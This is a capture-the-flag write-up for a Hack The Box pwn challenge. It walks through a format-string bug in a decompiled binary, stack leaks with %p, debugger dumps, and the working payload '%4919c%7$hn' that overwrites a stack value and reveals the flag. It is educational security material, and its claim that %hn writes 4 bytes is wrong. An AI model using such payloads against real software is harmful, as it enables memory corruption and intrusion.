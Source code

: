# Space Pirate:Entrypoint

### Challenge: PWN

### Tools: Ghidra, Pwndbg

### Vulnerability: Format String

This challenge is in the form of a format string  vulnerability. Since I had never used one I followed these links for a very good run down on a format string attack.

https://kevinalmansa.github.io/application%20security/Format-Strings

https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b

Below is the main function where our vulnerability sits. The check_pass function has no actual vulnerability.


undefined8 main(void)

{
  long lVar1;
  long in_FS_OFFSET;
  long local_48;
  long *local_40;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  local_48 = 0xdeadbeef;
  local_40 = &local_48;
  printf(&DAT_001025e0);
  lVar1 = read_num();
  if (lVar1 != 1) {
    if (lVar1 == 2) {
      check_pass();
    }
    printf(&DAT_00102668,&DAT_0010259a);
                    /* WARNING: Subroutine does not return */
    exit(0x1b39);
  }
  printf("\n[!] Scanning card.. Something is wrong!\n\nInsert card\'s serial number: ");
  read(0,local_38,0x1f);
  printf("\nYour card is: ");
  printf(local_38);
  if (local_48 == 0xdead1337) {
    open_door();
  }
  else {
    printf(&DAT_001026a0,&DAT_0010259a);
  }
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}


We can see that local 48 = 0xdeadbeef but if local_48 = 0xdead1337 then it will open_door which is the function that prints our flag. So our goal is to change the value of 0xdeadbeef to 0xdead1337.
Now the way I actually figured out there was a format string vulnerability was by putting in different % commands to see if anything happened and luckily I found that %p was printing addresses. %s and %n will cause a segmentation fault.

```
(base) ┌──(rogue1㉿rogue1)-[~/HTB/CTF/Apocalypse2022/challenge]
└─$ ./sp_entrypoint          


                         Authentication System

▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓     ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓     ▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓     ▓▓▓▒▒▓▓▓▒▒▒▒▒▓▓▒░▒▓▓▓░░▓▓▓▓▓  ░  ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓     ▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓     ▓▓▓▒▒▓▓▓▒▒▒▒▒▓▓░░░▓▓▓▒░▓▓▓▓▓ ░   ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓     ▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒▒▒▒▒▓▓░░░▓▓▓░░▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒▒▒▒░▓▓░░░▓▓▓░░▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒▒▒▒▒▓▓▒░░▓▓▓░░▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒▒▒▒░▓▓░░░▓▓▓░ ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒▒▒▒▒▓▓░░░▓▓▒░░▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓                                                        ▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒▒░░░▓▓░░░▓▓▒░ ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒░░░▒▓▓░░░▓▓▒ ░▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓░░░░░▓▓░░░▓▓▓  ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒░▓▓▓▒░░░░▓▓▒  ▓▓▒  ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓     ▓▓▓▓▓▓▓▓▓▓▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓░▒░░░▓▓░  ▓▓▒  ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓     ▓▓▓░▒▓▓▓░░░░░▓▓░  ▓▓▒  ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓     ▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓     ▓▓▓▒░▓▓▓░░░░ ▓▓   ▓▓▒  ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓     ▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓     ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓     ▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
                                                                                                                                                   
                                                                                                                                                   
1. Scan card 💳                                                                                                                                    
2. Insert password ↪                                                                                                                               
> 1                                                                                                                                                
                                                                                                                                                   
[!] Scanning card.. Something is wrong!                                                                                                            
                                                                                                                                                   
Insert card's serial number: %p %p %p %p %p %p %p %p %p %p %p %p                                                                                   
                                                                                                                                                   
Your card is: 0x7ffdfc86f2d0 0x7f734ef768c0 (nil) 0xf (nil) 0xdeadbeef 0x7ffdfc871970 0x7025207025207025 0x2520702520702520 0x2070252070252070     
                                                                                                                                                   
[-] Invalid ID! Intruder detected! 🚨 🚨 
```                                                                                                          
                                                


By inputting a couple of %p we can see that the address 0xdeadbeef is at offset 6 and input data is put into offset 7. Anything after becomes arbitrary.




```$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x007ffff7af2031  →  0x5777fffff0003d48 ("H="?)
$rdx   : 0x1f              
$rsp   : 0x007fffffffdce0  →  0x00000000deadbeef
$rbp   : 0x007fffffffdd20  →  0x00555555400e20  →  <__libc_csu_init+0> push r15
$rsi   : 0x007fffffffdcf0  →  "%p %p %p %p %p %p %p %p %p %p\n"
$rdi   : 0x00555555402658  →  "\nYour card is: "
$rip   : 0x00555555400d84  →  <main+142> call 0x5555554008a0 <printf@plt>
$r8    : 0x47              
$r9    : 0x0               
$r10   : 0x007ffff7b80bc0  →  0x0002000200020002
$r11   : 0x246             
$r12   : 0x00555555400940  →  <_start+0> xor ebp, ebp
$r13   : 0x007fffffffde00  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
─────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fffffffdce0│+0x0000: 0x00000000deadbeef     ← $rsp
0x007fffffffdce8│+0x0008: 0x007fffffffdce0  →  0x00000000deadbeef
0x007fffffffdcf0│+0x0010: "%p %p %p %p %p %p %p %p %p %p\n"      ← $rsi
0x007fffffffdcf8│+0x0018: " %p %p %p %p %p %p %p\n"
0x007fffffffdd00│+0x0020: "p %p %p %p %p\n"
0x007fffffffdd08│+0x0028: 0x000a7025207025 ("%p %p\n"?)
0x007fffffffdd10│+0x0030: 0x007fffffffde00  →  0x0000000000000001
0x007fffffffdd18│+0x0038: 0x10674ff2d0c4b300
───────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x555555400d73 <main+125>       call   0x5555554008c0 <read@plt>
   0x555555400d78 <main+130>       lea    rdi, [rip+0x18d9]        # 0x555555402658
   0x555555400d7f <main+137>       mov    eax, 0x0
 → 0x555555400d84 <main+142>       call   0x5555554008a0 <printf@plt>
   ↳  0x5555554008a0 <printf@plt+0>   jmp    QWORD PTR [rip+0x2026ea]        # 0x555555602f90 <printf@got.plt>
      0x5555554008a6 <printf@plt+6>   push   0x4
      0x5555554008ab <printf@plt+11>  jmp    0x555555400850
      0x5555554008b0 <alarm@plt+0>    jmp    QWORD PTR [rip+0x2026e2]        # 0x555555602f98 <alarm@got.plt>
      0x5555554008b6 <alarm@plt+6>    push   0x5
      0x5555554008bb <alarm@plt+11>   jmp    0x555555400850
───────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
printf@plt (
   $rdi = 0x00555555402658 → "\nYour card is: ",
   $rsi = 0x007fffffffdcf0 → "%p %p %p %p %p %p %p %p %p %p\n",
   $rdx = 0x0000000000001f
)
───────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "sp_entrypoint", stopped 0x555555400d84 in main (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555400d84 → main()
──────────────────────────────────────────────────────────────────────────────────────────────────────────
Python Exception <class 'AttributeError'> partially initialized module 'pwndbg' has no attribute 'commands' (most likely due to a circular import): 
gef➤  x50x $rsp
Undefined command: "x50x".  Try "help".
gef➤  x/50x $rsp
0x7fffffffdce0: 0xdeadbeef      0x00000000      0xffffdce0      0x00007fff
0x7fffffffdcf0: 0x25207025      0x70252070      0x20702520      0x25207025
0x7fffffffdd00: 0x70252070      0x20702520      0x25207025      0x00000a70
0x7fffffffdd10: 0xffffde00      0x00007fff      0xd0c4b300      0x10674ff2
0x7fffffffdd20: 0x55400e20      0x00005555      0xf7a03c87      0x00007fff
0x7fffffffdd30: 0x00000001      0x00000000      0xffffde08      0x00007fff
0x7fffffffdd40: 0x00008000      0x00000001      0x55400cf6      0x00005555
0x7fffffffdd50: 0x00000000      0x00000000      0xd40bc83c      0x088c5f78
0x7fffffffdd60: 0x55400940      0x00005555      0xffffde00      0x00007fff
0x7fffffffdd70: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdd80: 0x722bc83c      0x5dd90a07      0xb035c83c      0x5dd91ab8
0x7fffffffdd90: 0x00000000      0x00007fff      0x00000000      0x00000000
0x7fffffffdda0: 0x00000000      0x00000000
gef➤
```
 

So now that we know where we need to point the format string attack we can set up the command. Also we only need to change the last 2 bytes for the attack

Command = `%4919c%7$hn`	
	- 1337=4919(last 4 of dead1337 from hex) 
  	- c= prints character
  	- %7=the offset we are placing the $hn 
  	- $hn=writes 4 bytes to the target pointer.



```
1. Scan card 💳                                                                                                                                    
2. Insert password ↪                                                                                                                               
> 1                                                                                                                                                
                                                                                                                                                   
[!] Scanning card.. Something is wrong!                                                                                                            
                                                                                                                                                   
Insert card's serial number: %4919c%7$hn                                                                                                           
                                                                                                                                                   
Your card is:                                                                                                                                                                                 
[+] Door opened, you can proceed with the passphrase: HTB{th3_g4t35_4r3_0p3n!}     
```

With that we have our flag!

When I first started out I think I was diving too deep and trying scripts like `“dead1337””\x20\xdf\xff\xff””%7$n”` to print the flag but eventually realized this challenge was simpler than that.

